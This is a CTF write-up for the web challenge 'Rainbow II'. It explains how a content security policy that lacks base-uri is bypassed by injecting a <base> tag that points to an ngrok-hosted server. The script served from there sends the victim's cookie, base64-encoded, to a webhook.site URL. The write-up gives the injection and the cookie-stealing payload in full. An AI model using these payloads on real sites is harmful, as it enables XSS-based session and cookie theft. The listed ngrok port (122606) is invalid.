

repository: encient/encient.github.io · page: ctf/2024/gctf-2024/web/rainbow-ii/index.html · generator: mkdocs

## Description
![](rainbow21.png)
///caption
///

![](rainbow22.png)
///caption
///
This challenge is solved by my teammate, `Jin_707`. This writeup is written by `Jin_707`.


## Solution
The biggest difference of rainbow1 and rainbow2 is basically just this line:

![](rainbow23.png) 
///caption
///
From the code above basically it checks all types of content and only allows content from the same origin as the website itself or its subdomains to be loaded. It also permits scripts from same origin or inline scripts with the specific nonce (a1b2c3d4e5f6g7h8) are allowed to execute.

![](rainbow24.png)
///caption
///
Other details can refer to https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy. So obviously the previous payload using `<svg>` won’t work.

![](rainbow25.png)
///caption
///
Hint released shows that we can utilize `<base>` tag which is a complete new thing for me. Found a payload at https://www.cobalt.io/blog/csp-and-bypasses `<Base Href=//X55.is>` that proves that `<base>` works. Also found a good tool that helps to evaluate the strength and weaknesses of CSP https://csp-evaluator.withgoogle.com/  and it hints us that base-uri and object-src are missing from the CSP.
Means can do base-uri injection,  found a very decent [writeup](https://medium.com/@dev.abdulhaq/csp-bypass-challenge-in-ebhadra-ctf-b2ec2f735e23) on solving this kind of challenge. <br>
So, basically i just host a python server with my js script in the directory (self created) of `/static/rainbowifyText.js` because the HTML document is loading an external JavaScript file called `rainbowifyText.js` from the `/static/` directory on the server.
Payload on server: 
```javascript {frame="none"}
window.location="https://webhook.site/ccffcd19-da9c-4b78-a725-7377e2cab03b/"+btoa(document.cookie);
```

![](rainbow26.png)
///caption
///
Then I threw the same port I hosted with python to ngrok to make it public (at first i was running on http, but apparently it had some issues, so I hosted it with ngrok tcp 3000, copy the forwarding address and paste in into the href part of our payload)
Then send the payload below in the web app:
```javascript {frame="none"}
<base href="tcp://0.tcp.ap.ngrok.io:122606"></base>
```

![](rainbow27.png)
///caption
///
At first I sent it on the main index page to check if it works, then saw the request was coming into webhook, so just proceed to `/report` endpoint to send the payload. Flag was appended at the end of the URL encoded as base64 because according to the payload sent from my server. 

![](rainbow28.png)
///caption
///
 So just move to cyber chef decode and here we got the flag! 
 
